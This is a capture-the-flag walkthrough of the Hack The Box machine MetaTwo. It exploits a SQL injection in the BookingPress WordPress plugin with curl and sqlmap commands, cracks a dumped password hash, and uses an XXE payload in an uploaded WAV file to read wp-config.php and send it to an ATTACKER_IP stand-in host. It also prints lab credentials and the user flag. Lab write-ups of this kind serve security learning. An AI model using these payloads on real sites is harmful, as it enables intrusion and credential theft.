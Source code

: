 # MetaTwo

<Image src="/images/writeups/htb/metatwo/banner.png" />

### nmap scan

By scanning with nmap we can find three open ports. In particular, on port 80 there is a website available based on Wordpress at the address `metapress.htb`

<Image src="/images/writeups/htb/metatwo/nmap.png" />

### Analyzing the website

By looking to the source code of the index it is possible to see that the website uses Wordpress.

<Image src="/images/writeups/htb/metatwo/source.png" />

We can also notice that a plugin called bookingpress-appointment-booking is used. with version 1.0.10. It is enough to search on Google for vulnerabilities to find a SQLi.

[https://wordpress.org/plugins/bookingpress-appointment-booking/](https://wordpress.org/plugins/bookingpress-appointment-booking/)

[https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

The SQLi is:

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

Enumerate dbs

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch --dbs
```

Enumerate users

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch -D blog -T wp_users --dump
```

Get password of admin and manager users

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch --sql-query "SELECT user_pass FROM wp_users WHERE ID=1"
```

<Image src="/images/writeups/htb/metatwo/sqlmap.png" />

Final hashes

```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. admin
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 manager
```

Using hashcat and the rockyou list is possible to find the password for manager: `partylikearockstar`.

<Image src="/images/writeups/htb/metatwo/manager.png" />

Once inside we can try to exploit the permissions of the manager user.
We can use tool like Wappalyzer to find the version of Wordpress used by the website (5.6.2).

There is a vulnerability that exploits the upload of a new media element to the website. The vulnerability is described here:

[https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)

One file will be used for upload:

```xml title="payload.wav"
RIFFXXXXWAVEBBBBiXML<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://ATTACKER_IP:ATTACKER_PORT/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

Another will be server on the attacker machine:

```xml title="xxe.dtd"
<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:ATTACKER_PORT/?%data;'>">
```

Change ATTACKER_IP and ATTACKER_PORT with your values.

Remember to serve the file on your local pc:

```bash
python3 -m http.server PORT
```

In the `wp-config.php` we can find the credentials for the ftp server:

```php title="wp-config.php"
...
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
...
```

<Image src="/images/writeups/htb/metatwo/ftp.png" />

In addition to the blog files, there is also a folder called `mailer` where we can find a file `send_email.php`.
Inside the file we can find the credentials for the mail server:

```php title="send_email.php"
...
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
...
```

We can try to use them for ssh:

In this way we obtain the user flag:

```
4df68ef9947c09d45b2cd642455d4e1a
```

